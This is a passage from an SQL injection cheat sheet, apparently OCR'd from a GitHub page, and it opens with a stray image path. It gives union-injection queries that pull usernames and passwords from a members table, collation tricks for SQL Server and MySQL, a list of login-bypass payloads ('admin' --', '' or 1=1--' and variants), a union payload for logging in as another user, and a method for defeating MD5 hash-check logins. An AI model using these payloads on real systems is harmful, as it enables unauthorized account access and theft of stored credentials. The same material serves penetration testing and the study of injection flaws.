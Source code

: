     `SELECT CHAR(64)`

## Union Injections

With union you do SQL queries cross-table. Basically you can poison query to return records from another table.

`SELECT header, txt FROM news UNION ALL SELECT name, pass FROM members`   
This will combine results from both news table and members table and return all of them.

Another Example:   
`' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--`

### UNION – Fixing Language Issues

While exploiting Union injections sometimes you get errors because of different language settings (_table settings, field settings, combined table / db settings etc._) these functions are quite useful to fix this problem. It's rare but if you dealing with _Japanese, Russian, Turkish_ etc. applications then you will see it.

-   SQL Server (S)   
    Use `field` **`COLLATE`** `SQL_Latin1_General_Cp1254_CS_AS` or some other valid one - _check out SQL Server documentation_.   
      
    `SELECT header FROM news UNION ALL SELECT name COLLATE SQL_Latin1_General_Cp1254_CS_AS FROM members`
-   MySQL (M)   
    `Hex()` for every possible issue

### Bypassing Login Screens (SMO+)

_SQL Injection 101_, Login tricks

-   `admin' --`
-   `admin' #`
-   `admin'/*`
-   `' or 1=1--`
-   `' or 1=1#`
-   `' or 1=1/*`
-   `') or '1'='1--`
-   `') or ('1'='1--`
-   ....

-   Login as different user (SM\*)   
    `' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--`

_\*Old versions of MySQL doesn't support union queries_

### Bypassing second MD5 hash check login screens

If application is first getting the record by username and then compare returned MD5 with supplied password's MD5 then you need to some extra tricks to fool application to bypass authentication. You can union results with a known password and MD5 hash of supplied password. In this case application will compare your password and your supplied MD5 hash instead of MD5 from database.
